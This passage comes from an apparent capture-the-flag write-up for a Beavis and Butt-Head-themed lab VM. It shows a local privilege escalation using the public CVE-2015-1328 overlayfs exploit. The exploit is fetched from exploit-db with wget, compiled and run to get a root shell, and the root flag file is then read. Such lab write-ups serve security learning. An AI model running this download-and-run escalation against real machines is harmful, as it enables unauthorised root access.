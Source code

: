 Exploit process (CVE-2015-1328):

{% highlight bash %}
$ wget https://www.exploit-db.com/download/37292
--2015-12-19 05:18:22--  https://www.exploit-db.com/download/37292
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5123 (5.0K) [application/txt]
Saving to: ‘37292’

     0K .....                                                 100% 1.29G=0s

2015-12-19 05:18:25 (1.29 GB/s) - ‘37292’ saved [5123/5123]

$ ls
37292
nachos
$ mv 37292 37292.c
$ gcc 37292.c -o 37292
$ ./37292
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root),1001(butthead)
{% endhighlight %}

## Root Flag

{% highlight bash %}
# cd /root
# ls
SECRETZ
# cat SECRETZ
You have done a great job, if you can see this, please shoot me an email
and let me know that you have beat this box!

SECRET = "LIVE LONG AND PROSPER, REST IN PEACE MR. SPOCK"

admin@top-hat-sec.com
{% endhighlight %}

## Conclusion

I enjoyed the VM, dispite not being a fan of *Beavis and Butt-Head*. Looking at the pcap files for port knocking patterns was a new experience for me.

Thanks for the VM :)
